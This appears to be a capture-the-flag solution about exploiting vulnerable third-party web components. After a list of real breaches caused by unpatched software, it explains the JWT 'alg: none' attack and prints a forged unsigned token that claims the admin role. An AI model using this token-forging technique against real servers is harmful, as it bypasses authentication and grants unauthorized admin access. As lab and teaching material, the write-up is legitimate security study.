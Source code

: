 ## Most web application developers use third party components without testing their security. Some of the past affected companies are:

    Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
    Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
    VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one? The website is running here. Can you become an admin? You can login as test with the password Test123! to get started.


# A common attack is to modify the JWT token so that you set, header, alg to 'none' and user to whatever user you like. In this way, the server will not check the signature.

Token value:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhdXRoIjoxNzA5MzE4MjA4NTIwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IFVidW50dTsgTGludXggeDg2XzY0OyBydjoxMjIuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMjIuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcwOTMxODIwOX0.

```
